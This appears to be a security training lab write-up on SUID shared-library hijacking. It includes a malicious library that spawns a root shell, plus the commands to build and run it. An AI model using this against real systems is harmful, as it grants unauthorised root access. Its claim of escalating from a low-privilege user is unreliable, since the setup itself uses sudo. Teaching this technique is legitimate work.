







---

## 📌 Overview

This lab demonstrates a **privilege escalation attack** by exploiting improper shared library loading in a **SUID binary**, allowing execution of malicious code as **root**.

---

## 🎯 Objectives

* Identify vulnerable SUID binary
* Abuse shared library loading
* Inject malicious code
* Gain root access

---

## ⚙️ Environment

* OS: Kali Linux
* User: `moha` (low privilege)
* Scenario: Simulated vulnerable system

---

## 🛠️ Tools Used

| Tool       | Purpose              |
| ---------- | -------------------- |
| Kali Linux | Lab environment      |
| GCC        | Compile code         |
| ldconfig   | Update library cache |
| chmod      | Set SUID permissions |
| chown      | Change ownership     |
| nano       | Edit code            |
| bash       | Execute commands     |

---

## 🔍 Step 1 — Create Vulnerable Program

```c
#include <stdio.h>

void hello();

int main() {
    hello();
    return 0;
}
```

### Compile:

```bash
gcc vuln.c -L. -lhello -o vuln
```

### 📸 Evidence



---

## 🔨 Step 2 — Create Legitimate Library

```c
#include <stdio.h>

void hello() {
    printf("Hello from library\n");
}
```

### Compile:

```bash
gcc -shared -fPIC libhello.c -o libhello.so
```

### 📸 Evidence



---

## 🔐 Step 3 — Apply SUID Permission

```bash
sudo chown root:root vuln
sudo chmod 4755 vuln
```

### 📸 Evidence

```bash
ls -l vuln
```

(Expected: `-rwsr-xr-x`)

---

## 💣 Step 4 — Create Malicious Library

```c
#include <stdlib.h>
#include <unistd.h>

void hello() {
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
```

### Compile:

```bash
gcc -shared -fPIC libhello.c -o libhello.so -nostartfiles
```

### 📸 Evidence



---

## ⚠️ Step 5 — Initial Failure

Attempt:

```bash
./vuln
```

### Error:

```
libhello.so: cannot open shared object file
```

### 📸 Evidence



---

##  Step 6 — Bypass Security Restriction

```bash
sudo cp libhello.so /usr/lib/libhello.so
sudo ldconfig
```

### 📸 Evidence

```bash
ls -l /usr/lib/libhello.so
```

---

##  Step 7 — Execute Exploit

```bash
./vuln
```

### 📸 Evidence



---

##  Step 8 — Verify Root Access

```bash
whoami
```

### 📸 Evidence



```
root
```

---

## 📊 Attack Flow

1. Create SUID binary
2. Identify shared library dependency
3. Replace library with malicious code
4. Bypass security protections
5. Execute binary
6. Gain root access

---

## 🛡️ Mitigation

* Avoid SUID on custom binaries
* Use absolute library paths
* Restrict write access to `/usr/lib`
* Enable secure linking protections

------


## 🔑 Key Results

| Result               | Description                                           |
| -------------------- | ----------------------------------------------------- |
| Privilege Escalation | Successfully escalated from `moha` to `root`          |
| Exploit Technique    | Shared Library Hijacking on SUID binary               |
| Security Bypass      | Overcame `LD_LIBRARY_PATH` restriction                |
| Code Execution       | Achieved arbitrary command execution as root          |
| System Control       | Gained full administrative (root) access              |
| Practical Impact     | Demonstrated real-world privilege escalation scenario |


---

## 📌 Conclusion

The attack successfully demonstrates how **shared library hijacking** can lead to **full system compromise** when used with SUID binaries.

---

This work is part of FuzzRaiders’ structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability, methodological rigor and real-world security execution

Happy hacking 🚀

---


